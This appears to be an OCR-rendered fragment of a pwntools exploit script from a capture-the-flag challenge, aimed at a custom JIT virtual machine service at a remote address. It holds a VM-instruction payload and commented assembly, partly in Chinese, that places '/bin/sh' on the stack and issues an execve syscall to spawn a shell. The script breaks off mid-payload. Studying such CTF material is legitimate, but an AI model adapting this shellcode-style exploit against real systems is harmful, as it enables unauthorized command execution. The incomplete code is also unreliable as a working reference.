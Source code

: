 ```python
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12800'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b mutsumi_jit
            b run_vm
            b* $rebase(0x156b)
        ''')

def sl(s):
    p.sendline(s)
    sleep(0.1)

payload = b'''saki,ido
saki,to,tomorin     # jmp rax
saki,to,rikki       # jmp rbx
saki,to,anon        # jmp rcx
saki,to,soyorin     # jmp rdx
saki,stop'''
# /bin/sh = 0x68732f6e69622f
''' 下面payload实现的功能
mov di, 0x11
shl edi, 0x10
mov al, 0x40
shl eax, 8
add edi, eax
add edi, 6
xor eax, eax
mov rbx, qword ptr [rdi]
shl rbx, 0x20
add edi, 7
add ecx, dword ptr [rdi]
add rbx, rcx
push rbx
# 上面是将/bin/sh的地址压入栈中
mov di, 0x51
shl edi, 0x10
mov al, 0x4f
shl eax, 8
mov al, 0xf8
add rdi, eax
# 给rdi赋值为"/bin/sh"的地址，不过写wp的时候才意识到好像可以直接pop rdi
xor rax, rax
mov al, 0x3b
syscall
'''

payload = f'''saki,ido
5
saki,ido
{int(0x68732F)}
```